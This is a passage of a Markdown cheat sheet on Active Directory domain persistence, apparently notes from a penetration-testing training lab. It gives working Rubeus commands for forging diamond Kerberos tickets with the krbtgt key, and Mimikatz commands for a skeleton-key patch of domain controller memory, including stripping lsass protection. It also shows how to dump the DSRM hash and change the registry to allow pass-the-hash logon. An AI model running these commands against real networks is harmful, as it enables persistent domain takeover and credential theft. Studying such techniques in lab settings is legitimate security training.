 schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local "STCheck"
```

### Diamond Ticket

```powershell
# Diamond ticket is an alternative to Golden Ticket.
# Golden ticket use krbtgt hash to create a new TGT for persistence
# Diamond ticket modifies a valid TGT (decrypt,change,re-encrypt) with the AES key of krbtgt
# It is less detected because:
# TGT has valid ticket times
# It has a corresponding TGS (while a Golden ticket is forged and not linked to any TGS)

# It requires credentials if used by non domain account
Rubeus.exe diamond /krbkey:<AES_krbtgt> /user:studentx /password:studentPassword /enctype:aes /ticketusr:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /Createnetonly:c:\windows\system32\cmd.exe /show /ptt

# if a domain account is available, use the /tgtdeleg 
Rubeus.exe diamond /krbkey:<AES_krbtgt> /tgtdeleg /enctype:aes /ticketusr:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /Createnetonly:c:\windows\system32\cmd.exe /show /ptt

```

### Skeleton Key

- **Invoke-Mimikatz:**
```powershell
# Idea is to patch the DC memory injecting a domain admin credential
# By default it's user: mimikatz and password: mimikatz
# It doesn't survive a reboot
# It may not work if autenticathion is done against another DC (when having multiple DCs)
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.corporate.corp.local

# Not recommended method because not opsec safe and can cause issues to AD CS
# In case lsass is a protected process, mimikatz exe and driver are needed:
mimikatz#  privilege::debug
mimikatz#  !+
mimikatz#  !processprotect /process:lsass.exe /remove
mimikatz#  misc::skeleton
mimikatz#  !-
```

### Directory Services Restore Mode (DSRM)

- **Invoke-Mimikatz:**
```powershell
# DSRM is kind of local admin for Domain controller (needed for Directory Service Restore Mode)
# DSRM hash is stored locally in the SAM: Command to get DSRM hash (administrator) is:
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::sam"' -ComputerName dcorp-dc.corporate.corp.local

# Compare the hash with the administrator hash from command "lsadmp::lsa /patch": they are different
# Once got the hash of DSRM it's possible to use it for pass the hash

# But before a change to registry is needed (permit logon from network to )
# HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior = 2 (DWORD)
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

# Then run powershell on domain controller (pass the hash with NTLM hash
```
